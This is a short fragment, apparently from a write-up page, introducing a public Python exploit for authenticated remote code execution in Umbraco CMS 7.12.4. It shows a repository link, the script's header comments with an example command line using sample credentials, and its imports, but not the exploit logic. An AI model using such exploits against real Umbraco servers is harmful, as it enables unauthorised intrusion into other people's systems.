 ![](/assets/img/8-ssmith.png)

### Umbraco 7.12.4 Remote Code Exploit

[https://github.com/noraj/Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)

```python
# Exploit Title: Umbraco CMS - Authenticated Remote Code Execution 
# Date: 2020-03-28
# Exploit Author: Alexandre ZANNI (noraj)
# Based on: https://www.exploit-db.com/exploits/46153
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# Example: python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig

import requests
import re
import argparse

from bs4 import BeautifulSoup

```